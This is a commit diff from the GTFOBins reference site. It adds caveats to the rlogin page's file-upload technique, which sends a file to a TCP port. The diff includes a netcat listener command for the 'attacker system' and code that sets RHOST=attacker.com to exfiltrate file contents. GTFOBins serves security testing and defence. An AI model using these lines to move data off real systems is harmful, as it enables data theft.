

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rlogin.md, in a window 1280 px wide. Shown: the top 565 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add comments to rlogin
Close #45.

```diff
--- a/_gtfobins/rlogin.md
+++ b/_gtfobins/rlogin.md
@@ -1,7 +1,14 @@
 ---
+description: |
+  Usually `rlogin` is a symlink to `ssh`, the following works only when the *real* `rlogin` is used (e.g., from the `rsh-client` APT package).
 functions:
   file-upload:
-    - description: Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.
+    - description: |
+        Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.
+
+        `rlogin` hangs waiting for the remote peer to close the socket.
+
+        The file is corrupted by leading and trailing spurious data.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
